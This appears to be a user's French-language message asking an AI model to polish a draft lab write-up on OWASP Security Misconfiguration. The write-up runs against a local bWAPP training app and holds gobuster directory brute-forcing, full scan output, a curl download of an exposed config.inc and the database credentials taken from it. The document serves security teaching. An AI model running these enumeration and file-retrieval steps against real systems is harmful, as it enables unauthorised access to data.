 vazy t'es trop nul

voila ce que je voulais (améliore et met en forme) : 

# A05:2021-Security Misconfiguration

## Intro

## Premier scénario

### Attaque 1 — Configuration / Backup File Disclosure (Old/Backup & Unreferenced Files)

#### Contexte
Environnement : bWAPP local (http://127.0.0.1:8081).  
Objectif : démontrer qu’un fichier de configuration accessible par HTTP divulgue des identifiants sensibles (OWASP A05:2021 - Security Misconfiguration).
Des fichiers de configuration et de sauvegarde sont présents ou référencés par l’application et peuvent être téléchargés par un attaquant via HTTP. Ces fichiers contiennent souvent des identifiants de base de données ou du code source. Leur exposition permet l’accès à la base de données et l’exfiltration des données applicatives.

1. Récupération d’une wordlist (SecLists - `common.txt`) :
curl -sS -o /home/env-admin/common.txt \
  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt

2. Scan du site web grâce à la commande curl et la wordlist
gobuster dir -u http://127.0.0.1:8081/ -w /tmp/common.txt -x php,inc,bak,zip -t 40 -o /tmp/gobuster_simple.txt

3. Analyse des fichiers de sorties
/.htaccess.inc       [33m (Status: 403)[0m [Size: 291]
/.hta.bak            [33m (Status: 403)[0m [Size: 286]
/.hta                [33m (Status: 403)[0m [Size: 282]
/.hta.inc            [33m (Status: 403)[0m [Size: 286]
/.htaccess.bak       [33m (Status: 403)[0m [Size: 291]
/.htpasswd           [33m (Status: 403)[0m [Size: 287]
/.htaccess           [33m (Status: 403)[0m [Size: 287]
/.hta.zip            [33m (Status: 403)[0m [Size: 286]
/.htaccess.php       [33m (Status: 403)[0m [Size: 291]
/.hta.php            [33m (Status: 403)[0m [Size: 286]
/.htpasswd.inc       [33m (Status: 403)[0m [Size: 291]
/.htpasswd.php       [33m (Status: 403)[0m [Size: 291]
/.htaccess.zip       [33m (Status: 403)[0m [Size: 291]
/.htpasswd.zip       [33m (Status: 403)[0m [Size: 291]
/.htpasswd.bak       [33m (Status: 403)[0m [Size: 291]
/admin               [36m (Status: 301)[0m [Size: 312][34m [--> http://127.0.0.1:8081/admin/][0m
/apps                [36m (Status: 301)[0m [Size: 311][34m [--> http://127.0.0.1:8081/apps/][0m
/backdoor.php        [32m (Status: 200)[0m [Size: 333]
/bugs                [32m (Status: 200)[0m [Size: 7858]
/captcha.php         [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/cgi-bin/.zip        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/.php        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/.inc        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/.bak        [33m (Status: 403)[0m [Size: 290]
/cgi-bin/            [33m (Status: 403)[0m [Size: 286]
/config.inc          [32m (Status: 200)[0m [Size: 774]
/connect.php         [32m (Status: 200)[0m [Size: 0]
/credits.php         [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/db                  [36m (Status: 301)[0m [Size: 309][34m [--> http://127.0.0.1:8081/db/][0m
/documents           [36m (Status: 301)[0m [Size: 316][34m [--> http://127.0.0.1:8081/documents/][0m
/fonts               [36m (Status: 301)[0m [Size: 312][34m [--> http://127.0.0.1:8081/fonts/][0m
/images              [36m (Status: 301)[0m [Size: 313][34m [--> http://127.0.0.1:8081/images/][0m
/index.php           [36m (Status: 302)[0m [Size: 0][34m [--> portal.php][0m
/index.php           [36m (Status: 302)[0m [Size: 0][34m [--> portal.php][0m
/info.php            [32m (Status: 200)[0m [Size: 3426]
/info.php            [32m (Status: 200)[0m [Size: 3426]
/install.php         [32m (Status: 200)[0m [Size: 2270]
/js                  [36m (Status: 301)[0m [Size: 309][34m [--> http://127.0.0.1:8081/js/][0m
/login.php           [32m (Status: 200)[0m [Size: 4013]
/logout.php          [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/message             [32m (Status: 200)[0m [Size: 28]
/passwords           [36m (Status: 301)[0m [Size: 316][34m [--> http://127.0.0.1:8081/passwords/][0m
/phpinfo.php         [32m (Status: 200)[0m [Size: 78557]
/phpinfo.php         [32m (Status: 200)[0m [Size: 78557]
/portal.php          [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/portal              [32m (Status: 200)[0m [Size: 5396]
/portal.zip          [32m (Status: 200)[0m [Size: 5396]
/portal.bak          [32m (Status: 200)[0m [Size: 6594]
/robots.txt          [32m (Status: 200)[0m [Size: 167]
/robots              [32m (Status: 200)[0m [Size: 167]
/secret.php          [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/security.php        [36m (Status: 302)[0m [Size: 0][34m [--> login.php][0m
/server-status       [33m (Status: 403)[0m [Size: 291]
/soap                [36m (Status: 301)[0m [Size: 311][34m [--> http://127.0.0.1:8081/soap/][0m
/stylesheets         [36m (Status: 301)[0m [Size: 318][34m [--> http://127.0.0.1:8081/stylesheets/][0m
/test.php            [32m (Status: 200)[0m [Size: 0]
/training.php        [32m (Status: 200)[0m [Size: 3843]
/update.php          [32m (Status: 200)[0m [Size: 0]
/web.config          [32m (Status: 200)[0m [Size: 7556]

Découverte du fichier config.inc

4. Téléchargement du fichier 
curl -sS http://127.0.0.1:8081/config.inc -o /tmp/config.inc

5. Informations extrait 
// Connection settings
$server = "localhost";
$username = "bwapp";
$password = "bwApped";
$database = "bWAPP";
